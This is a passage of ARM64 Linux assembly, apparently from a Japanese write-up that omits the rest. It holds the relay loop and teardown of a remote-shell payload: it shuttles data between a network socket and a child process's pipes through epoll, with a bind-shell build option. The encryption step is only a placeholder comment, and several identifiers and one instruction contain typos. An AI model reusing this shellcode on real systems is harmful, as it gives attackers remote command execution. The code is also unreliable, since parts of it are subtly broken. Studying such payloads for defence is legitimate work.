    mov     x1, EPOLL_CTL_ADD
    add     x3, sp, evts
    stp     x1, x2, [x3]
    ldr     w0, [sp, efd]
    svc     0
    cmp     w2, w4
    mov     w2, w4
    bne     poll_init
    // now loop until user exits or some other error
poll_wait:
    // epoll_pwait(efd, &evts, 1, -1, NULL);
    mov     x8, SYS_epoll_pwait
    mov     x4, xzr             // sigmask   = NULL
    mvn     x3, xzr             // timeout   = -1
    mov     x2, 1               // maxevents = 1
    add     x1, sp, evts        // *events   = &evts
    ldr     w0, [sp, efd]       // epfd      = efd
    svc     0

    // if (r < 0) break;
    tbnz    x0, 31, cls_efd

    // if (!(evts.events & EPOLLIN)) break;
    ldp     x0, x1 [sp, evts]
    tbz     w0, 0, cls_efd

    ldr     w3, [sp, s]
    ldp     w5, w4, [sp, in1]

    cmp     w1, w3

    // r = (fd == s) ? s : out[0];
    csel    w0, w3, w4, eq

    // w = (fd == s) ? in[1] : s;
    csel    w3, w5, w3, eq

    // read(r, buf, BUFSIZ);
    mov     x8, SYS_read
    mov     x2, BUFSIZ
    add     x1, sp, buf
    svc     0
    cbz     x0, cls_efd

    // encrypt/decrypt buffer

    // write(w, buf, len);
    mov     x8, SYS_write
    mov     w2, w0
    mov     w0, w3
    svc     0
    b       poll_wait
cls_efd:
    // epoll_ctl(efd, EPOLL_CTL_DEL, s, NULL);
    mov     x8, SYS_epoll_ctl
    mov     x3, xzr
    mov     x1, EPOLL_CTL_DEL
    ldp     w0, w2, [sp, efd]
    svc     0

    // epoll_ctl(efd, EPOLL_CTL_DEL, out[0], NULL);
    ldr     w2, [sp, out0]
    ldr     w0, [sp, efd]
    svc     0

    // close(efd)
    mov     x8, SYS_close
    ldr     w0, [sp, efd]
    svc     0

    // shutdown(s, SHUT_RDWR);
    mov     x8, SY_shutdown
    mov     x1, SHUT_RDRW
    ldr     w0, [sp, s]
    svc     0
cls_sck:
    // close(s);
    mov     x8, SYS_close
    ldr     w0, [sp, s]
    svc     0

.ifdef BIND
    // close(s2)
    mov     x8, SYS_close
    ldr     w0, [sp, s2]
    svc     0
.endif
    // kill(pid, SIGCHLD);
    mov     x8, SYS_kill
    mov     x1, SIGCHLD
    ldr     w0, [sp, id]
    svc     0

    // close(in[1]);
    mov     x8, SYS_close
    ldr     w0, [sp, in1]
    svc     0

    // close(out[0]);
    mov     x8, SYS_close
    ldr     w0, [sp, out0]
    svc     0

.ifdef EXIT
    // exit(0);
    mov     x8, SYS_exit
    svc     0
.else
    // deallocate stack
    add     sp, sp, (ds_tbl_size & -16) + 16
    ret
.endif
```

以下省略。
